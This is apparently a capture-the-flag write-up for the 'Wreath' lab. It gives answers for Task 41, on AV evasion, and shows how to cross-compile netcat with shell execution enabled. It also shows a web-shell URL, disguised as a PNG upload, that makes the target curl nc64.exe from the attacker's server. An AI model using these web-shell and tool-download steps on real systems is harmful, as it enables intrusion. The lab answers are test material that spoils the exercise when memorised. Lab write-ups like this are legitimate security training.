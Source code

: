 
**Answer questions**

What is the Host Name of the target?

    wreath-pc

What is our current username (include the domain in this)?

    wreath-pc\thomas



## Task 41  AV Evasion Compiling Netcat & Reverse Shell!

**Clone repository**

    git clone https://github.com/int0x33/nc.exe/

install mingw-w64

    sudo apt install mingw-w64

Inside the `nc.exe/Makefile` needed to be edited to point to new compiler

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649084160036_image.png)


`make` new nc with mingw-w64 compiler

    make 2>/dev/null x86_64-w64-mingw32-gcc -DNDEBUG -DWIN32 -D_CONSOLE -DTELNET -DGAPING_SECURITY_HOLE getopt.c doexec.c netcat.c -s -lkernel32 -luser32 -lwsock32 -lwinmm -o nc.exe


    file nc.exe

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649084466363_image.png)


**Bonus Question (optional):** Follow the steps detailed above to compile a copy of netcat.exe (otherwise use the copy already in the repo).

    No answer needed


With a copy of netcat available, we now need to get it up to the target.
Start a Python webserver on your attacking machine (as demonstrated numerous times previously):
`sudo python3 -m http.server 80`

    No answer needed

What output do you get when running the command: `certutil.exe`?

    CertUtil: -dump command completed successfully.

**Download nc on target**

    10.200.90.100/resources/uploads/shell-exec.png.php?wreath=curl http://10.50.91.32/nc64.exe -o c:\\windows\temp\\nc-exec.exe

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649086561897_image.png)

